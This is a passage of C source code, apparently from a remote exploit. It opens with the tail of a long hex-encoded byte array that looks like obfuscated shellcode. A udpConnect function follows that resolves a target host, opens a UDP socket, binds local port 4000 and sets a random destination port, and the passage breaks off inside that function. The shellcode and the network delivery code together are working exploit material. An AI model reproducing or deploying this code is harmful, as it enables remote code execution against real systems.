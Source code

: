     "\x35\xca\xcc\xe7\x9b\x10\x54\x97\xd3\x71\x7b\x6c\x72\xcd\x18\xc5"
    "\xb7\x90\x40\x42\x73\x90\x51\xa0\x5a\xf5\x18\x9b\x18\xd5\x8f\x90"
    "\x50\x52\x72\x91\x90\x52\x18\x83\x90\x40\xcd\x18\x6d\xa0\x5a\x22"
    "\x97\x7b\x08\x93\x93\x93\x10\x55\x98\xc1\xc5\x6c\xc4\x63\xc9\x18"
    "\x4b\xa0\x5a\x22\x97\x7b\x14\x93\x93\x93\x10\x55\x9b\xc6\xfb\x92"
    "\x92\x93\x93\x6c\xc4\x63\x16\x53\xe6\xe0\xc3\xc3\xc3\xc3\xd3\xc3"
    "\xd3\xc3\x6c\xc4\x67\x10\x6b\x6c\xe7\xf0\x18\x4b\xf5\x54\xd6\x93"
    "\x91\x93\xf5\x54\xd6\x91\x28\x39\x54\xd6\x97\x4e\x5f\x28\x39\xf9"
    "\x83\xc6\xc0\x6c\xc4\x6f\x16\x53\xe6\xd0\xa0\x5a\x22\x82\xc4\x18"
    "\x6e\x60\x38\xcc\x54\xd6\x93\xd7\x93\x93\x93\x1a\xce\xaf\x1a\xce"
    "\xab\x1a\xce\xd3\x54\xd6\xbf\x92\x92\x93\x93\x1e\xd6\xd7\xc3\xc6"
    "\xc2\xc2\xc2\xd2\xc2\xda\xc2\xc2\xc5\xc2\x6c\xc4\x77\x6c\xe6\xd7"
    "\x6c\xc4\x7b\x6c\xe6\xdb\x6c\xc4\x7b\xc0\x6c\xc4\x6b\xc3\x6c\xc4"
    "\x7f\x19\x95\xd5\x17\x53\xe6\x6a\xc2\xc1\xc5\xc0\x6c\x41\xc9\xca"
    "\x1a\x94\xd4\xd4\xd4\xd4\x71\x7a\x50";




    /* udpconnect:
    *
    */
    int udpConnect (char *hostName)
    {

    struct hostent* host = NULL;
    int sock = -1;

    host = gethostbyname (hostName);
    if (NULL == host) {
    perror ("gethostbyname() failed");
    return -1;
    }

    sock = socket (AF_INET, SOCK_DGRAM, IPPROTO_UDP);
    if ( -1 == sock) {
    perror ("socket() failed\n");
    return -1;
    }

    memset (&addr, 0x00, sizeof (addr));
    addr.sin_addr = *(struct in_addr *) host->h_addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(random());

    memset (&local, 0x00, sizeof (local));
    local.sin_family = AF_INET;
    local.sin_addr.s_addr = htonl (INADDR_ANY);
    local.sin_port = htons(4000);


    if (bind (sock, (struct sockaddr *) &local, sizeof(local)) != 0) {
    perror ("bind error\n");
    return -1;
    }
